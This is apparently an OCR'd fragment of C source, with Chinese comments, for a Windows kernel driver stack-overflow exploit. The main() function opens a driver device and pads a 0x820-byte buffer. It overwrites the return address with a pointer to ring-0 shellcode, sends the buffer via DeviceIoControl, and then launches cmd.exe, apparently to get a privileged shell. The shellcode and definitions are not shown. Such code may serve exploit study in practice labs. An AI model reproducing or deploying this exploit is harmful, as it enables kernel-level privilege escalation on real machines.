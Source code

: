 ```
 
BOOL g_bIsExecute = FALSE;
 
int main()
{
    NTSTATUS status = STATUS_SUCCESS;
    HANDLE hDevice = NULL;
    DWORD dwReturnLength = 0;
    STARTUPINFO si = { 0 };
    PROCESS_INFORMATION pi = { 0 };
 
    // 打开驱动设备
    hDevice = CreateFile(LINK_NAME,
                         GENERIC_READ | GENERIC_WRITE,
                         0,
                         NULL,
                         OPEN_EXISTING,
                         FILE_ATTRIBUTE_NORMAL,
                         0);
    if (hDevice == INVALID_HANDLE_VALUE)
    {
        printf("CreateFile Error");
        goto exit;
    }
 
    CONST DWORD dwIputSize = 0x820 + 0x4; // 0x820用来填充垃圾数据，随后4字节填充返回地址
    CHAR szInputData[dwIputSize] = { 0 };
 
    *(PDWORD)(szInputData + 0x820) = (DWORD)Ring0ShellCode; // 指定返回地址为ShellCode
    // 与驱动设备进行交互
    if (!DeviceIoControl(hDevice,
                         IOCTL,
                         szInputData,
                         dwIputSize,
                         NULL,
                         0,
                         &dwReturnLength,
                         NULL))
    {
        printf("DeviceIoControl Error");
        goto exit;
    }
 
    if (g_bIsExecute)
    {
        printf("Ring0 代码执行完成\n");
    }
 
    si.cb = sizeof(si);
    if (!CreateProcess(TEXT("C:\\Windows\\System32\\cmd.exe"),
                       NULL,
                       NULL,
                       NULL,
                       FALSE,
                       CREATE_NEW_CONSOLE,
                       NULL,
                       NULL,
                       &si,
                       &pi))
    {
        ShowError("CreateProcess");
        goto exit;
    }
```